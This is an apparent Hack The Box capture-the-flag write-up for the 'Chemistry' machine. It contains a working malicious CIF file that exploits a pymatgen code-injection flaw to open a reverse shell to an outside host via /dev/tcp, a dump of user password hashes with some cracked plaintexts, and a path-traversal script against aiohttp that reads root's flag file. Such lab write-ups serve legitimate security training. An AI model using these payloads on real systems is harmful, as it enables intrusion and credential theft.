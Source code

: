 # Chemistry - HTB Write-up
<img src="https://labs.hackthebox.com/storage/avatars/b8f3d660af2d3ed0929eb119e33526cf.png" width="200" height="200">

## Initial portscan
```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Sat, 08 Mar 2025 13:55:02 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

## Foothold
The webpage gives us an upload form after you register with a free account.

Also gives us an example of a CIF file, download it. 

Searching the iNet for exploits on CIF file I found:
- https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

Here is the payload:
```shell
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.115/1337 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

Dump the secrets of the SQLite database.

Now pass the hashes in crackstation to get some passwds!

```shell
-------------------------------------------------------------------------------
id	username	password                                crackstation passwd
-------------------------------------------------------------------------------
1	admin	    2861debaf8d99436a10ed6f75a252abf        unicorniosrosados
2	app	        197865e46b878d9e74a0346b6d59886a
3	rosa	    63ed86ee9f624c7b14f1d4f43dc251a5
4	robert	    02fcf7cfc10adc37959fb21f06c6b467
5	jobert	    3dec299e06f7ed187bac06bd3b670ab2
6	carlos	    9ad48828b0955513f7cf0f7f6510c8f8        carlos123
7	peter	    6845c17d298d95aa942127bdad2ceb9b        peterparker
8	victoria	c3601ad2286a4293868ec2a4bc606ba3        victoria123
9	tania	    a4aa55e816205dc0389591c9f82f43bb
10	eusebio	    6cad48078d0241cca9a7b322ecd073b3
11	gelacia	    4af70c80b68267012ecdac9a7e916d18
12	fabian	    4e5d71f53fdd2eabdbabb233113b5dc0
13	axel	    9347f9724ca083b17e39555c36fd9007
14	kristel	    6896ba7b11a62cacffbdaded457c6d92
15	dqwdqd	    36aa69f4d3824a9a431ea51955dbc542        wqdqd
```

Use SSH to connect with the rosa user and output the processes using `ps -ef`

```shell
app         1034       1  1 13:44 ?        00:01:03 /usr/bin/python3.9 /home/app/app.py
root        1035       1  0 13:44 ?        00:00:00 /usr/bin/python3.9 /opt/monitoring_site/app.py
```

Notice the root user running `/usr/bin/python3.9 /opt/monitoring_site/app.py`. 

Trying to take a look at `/opt/` directory gives us a beautiful Permission Denied :(

Instead, let's try to look up for open ports:

```shell
rosa@chemistry:/opt$ netstat -plant
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      1 10.129.47.93:45524      8.8.8.8:53              SYN_SENT    -                   
tcp        0      0 10.129.47.93:50174      10.10.14.115:1337       ESTABLISHED -                   
tcp        0      0 10.129.47.93:5000       10.10.14.115:36406      ESTABLISHED -                   
tcp        0    432 10.129.47.93:22         10.10.14.115:37788      ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

Let's bring port 8080 to our localhost.

Intercept the requests with BurpSuite and notice the following header:
- `Server: Python/3.9 aiohttp/3.9.1`

Search for vulnerabilities and find path transversal (CVE-2024-23334-PoC)

The script needs a little modification, so we can get `/root/root.txt`.

```shell
#!/bin/bash
url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $url$payload$file"
    curl --path-as-is  "$url$payload$file"
    # status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    # echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```
